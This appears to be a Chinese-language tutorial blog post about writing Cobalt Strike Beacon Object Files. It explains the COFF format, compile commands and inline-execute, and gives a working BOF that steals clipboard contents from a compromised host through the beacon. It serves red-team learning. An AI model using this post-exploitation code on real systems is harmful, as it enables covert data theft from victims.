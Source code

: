 ```yaml
---
title: 介绍CobaltStrike新功能BOF
tags: CobaltStrike
---
```


## What is COFF?

COFF – 通用对象文件格式（Common Object File Format），是一种很流行的**对象**文件格式（注意：这里“对象这个用词，这种格式不只用于目标文件，库文件、可执行文件也经常是这种格式）。我们编写的C++对象文件，先会被***编译***成为一个和文件同名且格式为obj的文件，然后链接器会将这些obj文件***链接***成Exe或者DLL这样的PE文件。这里的obj文件就是COFF格式的。其它的编译器，如GCC（GNU Compiler Collection）、ICL（Intel C/C++ Compiler）、VectorC，也使用这种格式的目标文件。不仅仅是C/C++，很多其它语言也使用这种格式的对象文件。统一格式的目标文件为混合语言编程带来了极大的方便。而且常见的对象文件格式还有OMF-对象模型文件（Object Module File）以及ELF-可执行及连接文件格式（Executable and Linking Format）。

[更多关于COFF文件格式](http://www.cppblog.com/elva/archive/2008/03/24/45231.html)

## Beacon Object Files

官方定义：

> A Beacon Object File (BOF) is a compiled C program, written to a convention that allows it to execute within a Beacon process and use internal Beacon APIs. BOFs are a way to rapidly extend the Beacon agent with new post-exploitation features.

- BOF实际上也是一个COF文件格式，BOF实际上是编译后的obj文件，并没有常规的进行后续的链接生成EXE或DLL所以好处就是**体积小**。

- 开发BOFs也很容易，只需要一个Win32 C Compiler 可以跨平台编译

- 对于Beacon，BOF只是一个位置无关的代码块，对于CS端，会解析然后作为一个链接器加载它的内容。

- CS无法与libc链接，可以使用其他代替

- BOF在目标的beacon中执行，如果写的BOF发生异常崩溃，那么这个beacon也会崩溃，所以务必要写好你的BOFs

## How do I develop a BOF?

*Easy. Open up a text editor and start writing a C program. Here's a Hello World BOF:*

```c
#include <windows.h>
#include "beacon.h"

void go(char * args, int alen) {
      BeaconPrintf(CALLBACK_OUTPUT, "Hello World: %s", args);
}
```

> Download beacon.h (you'll need it):
>
> https://www.cobaltstrike.com/downloads/beacon.h
>
> To compile this with Visual Studio:
>
> **cl.exe /c /GS- hello.c /Fohello.o**
>
> To compile this with x86 MinGW:
>
> **i686-w64-mingw32-gcc -c hello.c -o hello.o**
>
> To compile this with x64 MinGW:
>
> **x86_64-w64-mingw32-gcc -c hello.c -o hello.o**
>
> The above commands will produce a hello.o file. Use inline-execute in Beacon to run the BOF.
>
> **beacon> inline-execute /path/to/hello.o these are arguments**



值得注意的是，`beacon.h`包含了一些Beacon APIs，例如上例的`BeaconPrintf`在Beacon中进行打印操作，并且主程序是void类型的名为go(可以修改)，这个和我们一般的C程序main函数类似，用作`inline-execute`去调用。



如果你想编写cna脚本方便调用BOF的话，CobaltStrike也提供了相应的Functions

<img src="https://gitee.com/evilashz/MyIMGs/raw/master/img/image-20200819132454326.png" alt="image-20200819132454326" style="zoom:50%;" />

更多查看：[beacon_inline_execute](https://www.cobaltstrike.com/aggressor-script/functions.html#beacon_inline_execute)



**比如一个记录目标beacon上剪切板内容的示例程序：**

```c
#include <windows.h>
#include <string.h>
#include <winuser.h>
#include "beacon.h"

DECLSPEC_IMPORT HWND WINAPI KERNEL32$GetConsoleWindow(void);
DECLSPEC_IMPORT WINUSERAPI BOOL WINAPI USER32$OpenClipboard(HWND);
DECLSPEC_IMPORT WINUSERAPI HANDLE WINAPI USER32$GetClipboardData(UINT);
DECLSPEC_IMPORT WINUSERAPI BOOL  WINAPI USER32$CloseClipboard(void);


 void go() {

    HWND owner = KERNEL32$GetConsoleWindow(); 
    USER32$OpenClipboard(owner);
    owner = USER32$GetClipboardData(CF_TEXT);
    BeaconPrintf(CALLBACK_OUTPUT, "%s\n", (char *)owner);;
    USER32$CloseClipboard();
 }
```

可以发现和普通C程序不一样的地方，调用的WINAPI前需加`$`以及Library名字，以及上面声明的时候，编写的时候可以先正常的编写并测试完成后，再修改为BOF程序，可以查看WINAPI的声明处，自己修改为这个格式，有很多你不知道是哪些Library的话就得查找资料，这里我推荐一个[bof_helper](https://github.com/dtmsecurity/bof_helper)

这个项目可以直接帮你查找相应的方法的头文件声明，并且转换为BOF编写需要的格式，所以直接可以复制结果到你的BOF程序中

https://github.com/dtmsecurity/bof_helper

比如：

```shell
python3 bof_helper.py DsGetDcNameA
██████╗  ██████╗ ███████╗
██╔══██╗██╔═══██╗██╔════╝
██████╔╝██║   ██║█████╗
██╔══██╗██║   ██║██╔══╝
██████╔╝╚██████╔╝██║
╚═════╝  ╚═════╝ ╚═╝
BOF Helper by @dtmsecurity

[Library] DsGetDcNameA is probably in NetApi32

[Declaration] DWORD WINAPI DsGetDcNameA(LPCSTR, LPCSTR, GUID*, LPCSTR, ULONG, PDOMAIN_CONTROLLER_INFOA*);

[BOF Helper]
DECLSPEC_IMPORT DWORD WINAPI NETAPI32$DsGetDcNameA(LPCSTR, LPCSTR, GUID*, LPCSTR, ULONG, PDOMAIN_CONTROLLER_INFOA*);
```

有了这个就可以开始编写自己的BOF了

下面这个项目给了很多官方示例

https://github.com/rvrsh3ll/BOF_Collection



使用`inline-execute`执行记录剪切板

![屏幕快照 2020-08-19 14.10.21](https://gitee.com/evilashz/MyIMGs/raw/master/img/20200819141135.png)

使用Aggressor Script提供的`inline-execute`方法编写cna，直接命令加参数执行扫描端口BOF

![image-20200819141217691](https://gitee.com/evilashz/MyIMGs/raw/master/img/20200819141221.png)

